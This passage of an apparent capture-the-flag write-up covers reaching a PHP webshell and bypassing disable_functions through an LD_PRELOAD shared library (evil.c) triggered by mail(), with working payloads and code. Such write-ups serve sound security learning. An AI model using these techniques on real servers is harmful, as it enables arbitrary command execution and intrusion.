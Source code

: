 So just base64 encoding the `shell.xxx` file simply. Be careful to let base64 decode properly.

Now, we get a webshell!

![](https://i.imgur.com/bPkFjn5.png)

scan the root directory using `scandir` function:

```tex
shell.xxx?a=var_dump(scandir('/'));
```

We can find two files, `flag` and `get_flag`. Use `highlight_file` function to try to read `flag`:

```tex
shell.xxx?a=highlight_file('/flag');
```

But here is nothing, maybe we have no permission. So we guess the goal is launch `get_flag`.

4.In phpinfo page, we can notice the `disable_functions`:

```tex
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,posix_mkfifo, pg_lo_import, dbmopen, dbase_open, popen, chgrp, chown, chmod, symlink,apache_setenv,define_syslog_variables, posix_getpwuid, posix_kill, posix_mkfifo, posix_setpgid, posix_setsid, posix_uname, proc_close, pclose, proc_nice, proc_terminate,curl_exec,curl_multi_exec,parse_ini_file,show_source,imap_open,fopen,copy,rename,readfile,readlink,tmpfile,tempnam,touch,link,file_put_contents,file,ftp_connect,ftp_ssl_connect,
```

No `imap_open` blocked, think of the [CVE-2018-19518](https://github.com/Bo0oM/PHP_imap_open_exploit). But here also no imap module installed.

```tex
shell.xxx?a=var_dump(get_defined_functions());
```

Additionally, we can notice that `mail` and `putenv` functions are not disabled, we may be able to use **LD_PRELOAD injection**. refer: [无需sendmail：巧用LD_PRELOAD突破disable_functions](https://www.freebuf.com/web/192052.html)

```bash
$ strace -f php -r "mail('','','','');" 2>&1 | grep -E "execve|fork|vfork"
execve("/usr/bin/php", ["php", "-r", "mail('','','','');"], 0x7ffdee9f1fa8 /* 60 vars */) = 0
[pid 12244] execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], 0x56364f8b9eb0 /* 60 vars */ <unfinished ...>
[pid 12244] <... execve resumed>)       = 0
[pid 12245] execve("/usr/sbin/sendmail", ["/usr/sbin/sendmail", "-t", "-i"], 0x562e1af8af98 /* 60 vars */) = -1 ENOENT (No such file or directory)
```

So we can use the `evil.c` and `evil.php` execute arbitrary commands:

```c
// (evil.c) gcc -shared -fPIC evil.c -o evil.so
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

__attribute__((constructor)) void preloadme() {
    const char* cmd = getenv("cmd");
    unsetenv("LD_PRELOAD");
    system(cmd);
}
```
